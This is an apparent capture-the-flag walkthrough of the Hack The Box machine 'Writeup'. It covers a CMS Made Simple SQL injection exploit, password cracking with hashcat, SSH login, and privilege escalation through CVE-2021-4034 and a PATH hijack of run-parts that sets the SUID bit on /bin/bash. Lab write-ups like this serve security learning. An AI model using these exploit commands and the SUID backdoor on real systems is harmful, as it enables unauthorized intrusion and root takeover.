 # Writeup!
## #Author : M3tr1c_r00t

![Writeup](https://user-images.githubusercontent.com/99975622/212437498-4f732051-1d7d-4bfc-97ff-c9ebd1538946.png)

Writeup is an easy linux box which is vulnerable to cms made simple 2.2.9.1 Sql injection to try and get creds which we can use to login into ssh.

### Enumeration...
```
# Nmap 7.92 scan initiated Thu Nov 24 15:28:50 2022 as: nmap -sC -sV -A -v -oN nmapscan.txt 10.129.63.149
Nmap scan report for 10.129.63.149
Host is up (0.24s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Nothing here yet.
| http-robots.txt: 1 disallowed entry 
|_/writeup/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Nov 24 15:29:27 2022 -- 1 IP address (1 host up) scanned in 36.72 seconds
```

Unfortunately, we cannot run a directory bruteforce as the server is going to block/ ban our ip.
We can try visiting the server ....

![image](https://user-images.githubusercontent.com/99975622/212437587-8eff1222-88f9-4268-aa5b-a5eb17368585.png)

Unfortunately, if we try to do a directory bruteforce, our ip will be blocked off.
<br>So, i tried writeup directory due to the name of the box, and it worked...
![image](https://user-images.githubusercontent.com/99975622/212437835-62a89e6a-0988-4ee7-a6a2-f434bcbb084e.png)

If we check the source code, we see the server is running on a CMS known as CMS made simple...
![image](https://user-images.githubusercontent.com/99975622/212437890-b41f05c6-dad2-435a-8d74-30512ce5d3af.png)
With that info,we need to look for the version.
<br>So, after googling around, we get the server directory format as CMS made simple is open simple
![image](https://user-images.githubusercontent.com/99975622/212437982-5a41c601-905a-48a4-9e06-9944b845db78.png)

You can download thier demo server zip or just check it out from their other directory...
```
http://svn.cmsmadesimple.org/svn/cmsmadesimple/trunk/
```
![image](https://user-images.githubusercontent.com/99975622/212438063-2aec6162-24b9-4977-a619-fe8061e7056b.png)
And if we move to the /doc/CHANGELOG.txt file, we can see our file version...
![image](https://user-images.githubusercontent.com/99975622/212438147-be3eb7a4-c8f3-4dd7-9003-940b375755ba.png)
With that info, we can head on over to google and look for a public exploit for the version or check using searchsploit...
![image](https://user-images.githubusercontent.com/99975622/212438227-d0258d38-d9af-4f70-95cc-b3c1aa7034aa.png)

We can copy the script into a python file then run it...

```
./script.py -u http://10.10.10.138/writeup --crack --wordlist /usr/share/wordlists/rockyou.txt
```

Since the script added an extra bit at the end of the md5 hash, we need to crack the passwordsuing hashcat...
![Screenshot_2022-11-24_16_52_14](https://user-images.githubusercontent.com/99975622/212438450-10c338e3-c3ce-4075-964c-49aee92b9c00.png)

Cracking with hashcat...
Adding the hash and salt in the same file...
![Screenshot_2022-11-24_17_02_48](https://user-images.githubusercontent.com/99975622/212438504-fa95700e-0bbb-4d5b-aee6-99ac2cc9f38b.png)

Cracking...
![Screenshot_2022-11-24_17_03_57](https://user-images.githubusercontent.com/99975622/212438514-49cb97b1-f219-4e32-bcd8-bce9ad6388f2.png)

Now that we've cracked the password, we need to login into the box using ssh and get the user flag...

### Priv Esc...
#### Unintended method...
After running linpeas, the box is vulnerable to CVE-2021-4034 ....
![Screenshot_2022-11-24_17_12_13](https://user-images.githubusercontent.com/99975622/212438729-a9d3f6b5-d0eb-4962-88dd-cb8dc0902ce6.png)

And we are root...
![Screenshot_2022-11-24_17_13_19](https://user-images.githubusercontent.com/99975622/212438795-f87b1de7-543b-45a3-8536-89732832319b.png)

#### Intended method...
Afte running pspy, we can see there is a message of the day being run without a full directory path being specified...
![Screenshot_2022-11-24_17_27_27](https://user-images.githubusercontent.com/99975622/212438935-62509dee-0ca9-4a75-9405-8ed56cea1325.png)

We can make our own script called run-parts and make the /bin/bash binary suid executable then move it to the /usr/local/bin directory...
```
echo "chmod +s /bin/bash " > run-parts
chmod +x run-parts
mv run-parts /usr/local/bin
```

In my case, i wrote a reverse shell script to get a shell as root...
![Screenshot_2022-11-24_17_30_57](https://user-images.githubusercontent.com/99975622/212439240-f8df929a-9b5b-4d0b-9f96-212490ff42d0.png)
Set up your listener...
<br>So, if we logoff and login once again, we will be able to get a reverse shell as root...
![Screenshot_2022-11-24_20_18_43](https://user-images.githubusercontent.com/99975622/212439324-177ef30f-9b56-4c3b-befa-1e85d426edae.png)
And done!

### Socials
@instagram:https://instagram.com/Metric_r00t
<br> Twitter:https://twitter.com/M3tr1c_root
